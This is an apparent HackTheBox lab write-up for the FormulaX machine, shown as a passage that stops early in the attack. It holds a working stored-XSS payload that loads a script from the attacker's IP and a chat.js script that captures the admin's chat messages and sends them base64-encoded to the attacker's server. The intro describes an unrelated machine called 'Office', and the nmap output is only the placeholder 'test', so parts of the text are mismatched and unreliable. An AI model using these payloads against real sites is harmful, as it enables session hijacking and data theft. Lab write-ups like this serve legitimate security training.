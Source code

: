 ```yaml
---
layout: single
title:  "HTB FormulaX Writeup"
seo_title: "Writeup for the HackTheBox FormulaX Machine"
date:   2024-07-22 21:00:00 +0200
categories: ['HackTheBox']
classes: wide
toc: true
header:
    teaser: "/assets/images/headers/Formulax.png"
---
```

Office is a hard-difficulty Windows machine featuring various vulnerabilities including Joomla web application abuse, PCAP analysis to identify Kerberos credentials, abusing LibreOffice macros after disabling the `MacroSecurityLevel` registry value, abusing MSKRP to dump DPAPI credentials and abusing Group Policies due to excessive Active Directory privileges. 

# Reconnaissance
As always, we start with an `nmap` scan of the host.

```console
$ nmap -p- 
test
```

We only find two open ports, `SSH` and `HTTP`, so we will proceed by enumerating the website.

## Website
Browsing to the website, we land on a login page for a `Problem-Solving` chatbot.
![vulnerability-setup-1](../assets/images/writeups/formulax/website-login.png)

We will create a new account. After logging in we can talk to the chatbot and issue the help command. One of the available commands allows us to show previous sent messages.
![vulnerability-setup-1](../assets/images/writeups/formulax/chatbot-help.png)

There is also a contact page and I tried to submit a simple XSS payload:

```http
<img src=x onerror="var s1=document.createElement('script');s1.src='http://10.10.14.167:80/chat.js';document.head.appendChild(s1);"/>
```
![vulnerability-setup-1](../assets/images/writeups/formulax/website-contact.png)

After sending the payload we get a request back. We make a new file called `chat.js` with the following contents.

```
const script = document.createElement('script');
script.src = '/socket.io/socket.io.js';
document.head.appendChild(script);
script.addEventListener('load', function() {
    const res = axios.get(`/user/api/chat`);
    const socket = io('/',{withCredentials: true});
    socket.on('message', (my_message) => {
        fetch("http://10.10.14.167:8888/?c=" + btoa(my_message))
    });
});
```

This script will load the admin users chat messages and send it to our local server.